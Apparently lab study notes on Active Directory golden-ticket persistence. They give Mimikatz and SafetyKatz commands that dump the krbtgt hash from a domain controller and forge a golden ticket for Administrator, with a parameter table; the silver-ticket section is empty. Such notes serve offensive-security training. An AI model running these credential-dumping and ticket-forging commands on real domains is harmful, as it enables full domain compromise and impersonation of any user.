

# Domain Persistence - Golden / Silver tickets

- [Domain Persistence - Golden / Silver tickets](#domain-persistence---golden--silver-tickets)
  - [AD Domain Dominance](#ad-domain-dominance)
  - [Golden Ticket](#golden-ticket)
  - [Leverage Golden Ticket](#leverage-golden-ticket)
  - [Silver Ticket](#silver-ticket)

---

## AD Domain Dominance

There is much more to Active Directory than "just" the Domain Admin. We must have multiple ways of persisting with high privileges in AD. That is, we must have the ability to have on-demand Domain Admin. Let's discuss Domain level persistence.

<br/>

## Golden Ticket

  

From the above, it assumes that:
- All TGTs signed by `krbtgt` hash are valid

<br/>

A **golden ticket** is signed and encrypted by the hash of krbtgt account **which makes it a valid TGT ticket**. 

Since user account validation is not done by Domain Controller (KDC service) until TGT is older than **20 minutes**, we can use even deleted/revoked/non-existent accounts.

The `krbtgt` user hash could be used to impersonate any user with any privileges from even a non-domain machine. Single password change has no effect on this attack as password history is maintained for the account.

<br/>

## Leverage Golden Ticket

Execute mimikatz on DC to get krbtgt hash:

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

or

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

To impersonate, on a machine which can reach the DC over network:

```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

<br/>

Alternatively, we can use `SafetyKatz`:

```
C:\Users\Public\SafetyKatz.exe "lsadump::lsa /patch" "exit"
```

or

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

On a machine which can reach the DC over network (Need elevation):

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

<br/>

|Mimikatz Parameters | |
|--|--|
|`kerberos::golden` | Name of the module |
|`/User:Administrator` | Username for which the TGT is generated |
|`/domain:us.techcorp.local` | Domain FQDN |
|`/sid:S-1-5-21-210670787-2521448726-163245708` | SID of the domain |
|`/krbtgt:b0975ae49f441adc6b024ad238935af5` | NTLM (RC4) hash of krbtgt. Alternatively you can use `/aes128` or `/aes256` for AES keys. |
|`/id:500 /groups:512` | Opertional User RID (default `500`) and Group (default `513` `512` `520` `518` `519`). |
|`/ptt` | Injects the ticket in current PowerShell process - no need to save the ticket on disk. |
|`/ticket` | Saves the ticket to a file for later use |
|`/startoffset:0` | Optional when the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future. |
|`/endin:600` | Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes. |
|`/renewmax:10080` | Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 |

<br/>

---

## Silver Ticket


